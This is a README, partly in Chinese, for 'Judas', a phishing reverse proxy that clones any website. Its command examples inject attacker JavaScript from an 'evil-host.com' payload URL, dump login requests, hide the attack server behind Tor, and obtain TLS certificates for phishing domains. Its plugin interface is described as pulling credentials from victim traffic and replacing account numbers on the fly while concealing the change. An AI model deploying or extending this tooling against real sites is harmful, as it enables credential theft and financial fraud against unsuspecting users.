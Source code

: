 Judas
=====
Judas 是一个可扩展化的钓鱼代理.
通过快速克隆任意网站。在任意网站中植入钓鱼 js 进行钓鱼。本项目克隆自 [JonCooperWorks/judas](https://github.com/JonCooperWorks/judas)。并对其进行稍微修改

```
  -address string
        Address and port to run proxy service on. Format address:port. (default "localhost:8080")
  -cookie-domain string
        set Cookies Domain
  -dump-url string
        dump request URL * is no dump (default "*")
  -inject-js string
        URL to a JavaScript file you want injected.
  -inject-url string
        target URL to a JavaScript file you want injected. default * is all ',' split (default "*")
  -insecure
        Listen without TLS.
  -insecure-target
        Not verify SSL certificate from target host.
  -plugins string
        Colon separated file path to plugin binaries.
  -proxy string
        Optional upstream proxy. Useful for torification or debugging. Supports HTTPS and SOCKS5 based on the URL. For example, http://localhost:8080 or socks5://localhost:9150.
  -proxy-ca-cert string
        Proxy CA cert for signed requests
  -proxy-ca-key string
        Proxy CA key for signed requests
  -ssl-hostname string
        Hostname for SSL certificate
  -target string
        The website we want to phish.
  -v    show version
  -with-profiler
        Attach profiler to instance.

```

Building
--------
To build `judas`, simply run `go build`.
 ```shell
 make build
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website, simply pass the `--ssl-hostname` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com
```

If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --insecure
```

If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.
This is useful for passing it through an intercepting proxy like Burp Suite for debugging purposes.

Example:
```
./judas \
    --target https://target-url-with-self-signed-cert.com \
    --proxy http://localhost:8080 \
    --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.
Judas supports SOCKS5 and HTTP proxies.
HTTP proxies must being with `http://` and socks5 proxies must begin with `socks5://`

Example:
```
./judas \
    --target https://torwebsite.onion \
    --ssl-hostname phishingsite.com \
    --proxy socks5://localhost:9150
```

修改侦听地址

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --address=0.0.0.0:8080
```

注入js默认是注入所有的js

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --inject-js https://evil-host.com/payload.js
```
## 注入特定的 url
```shell
judas --target  https://target-url.com             \
     --insecure --address=10.10.200.1:8080         \
     --inject-js= https://evil-host.com/payload.js \
     --inject-url="/index.php/Index/index"
```



### dump 下来原始请求

```shell
judas --target  https://target-url.com              \
     --insecure --address=10.10.200.1:8080          \
     --inject-js= https://evil-host.com/payload.js  \
     --inject-url="/index.php/Index/index"          \
     --dump-url="/index.php/Public/checkLogin"
```



**注意** --`dump-url` `--inject-url` 多个参数用英文`,` 隔开不可有空格

插件功能
-------

Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.
Plugins run in their own goroutine and judas will recover from panics, so you don't need to worry too much about what you do in the plugins.
You should configure your plugins using [environment variables](https://golang.org/pkg/os/#Getenv).

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Listener with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Listener, error)
```

The `judas.Listener` interface has one method: `Listen`.

```
// Listener implementations will be given a stream of HTTPExchanges to let plugins capture valuable information out of request-response transactions.
type Listener interface {
	Listen(<-chan *HTTPExchange)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Listeners can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

Plugins can also modify requests after they come from the victim and responses after they're returned from the server.
This is useful when you want to modify a request on the fly, like replacing an account number with yours.
To take advantage of this, simply create a custom `RequestTransformer` or `ResponseTransformer`.

```
// RequestTransformer modifies a request before it is sent to the target website.
// This can be used to hijack victim actions, like replacing an account number with ours.
// Delays in this function will slow down the phishing site for the victim.
// Your RequestTransformer should be a function called "RequestTransformer"
type RequestTransformer func(*http.Request) error

// ResponseTransformer modifies a response before it is returned to the victim.
// You can use ResponseTransformers to hide any visible results of a RequestTransformer.
// Delays in this function will slow down the phishing site for the victim.
// Your ResponseTransformer should be a function called "ResponseTransformer"
type ResponseTransformer func(*http.Response) error
```

You only have to implement the methods you're using.
You can put compiled plugins in a directory and pass them with the `--plugins` flag.
Plugins are colon separated file paths.

Example:
```
judas \
     --target https://www.target.com \
     --insecure \
     --address localhost:9000 \
     --proxy http://localhost:8080 \
     --insecure-target \
     --plugins ./searchloggingplugin.so:./linksloggingplugin.so
```

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)

You can build a plugin using this command:
```
go build -buildmode=plugin examples/searchloggingplugin/searchloggingplugin.go
```

### 修复一些bug
* Location 跳转 和目标域名不同域名跳转不变。相同跳转到代理地址   
* 可选注入到特定 URL 中不区分大小写 
*  解决 cookie 跨域导致无法登录   

### 注意
1. 使用域名或者特定的IP 不要使 0.0.0.0 这类
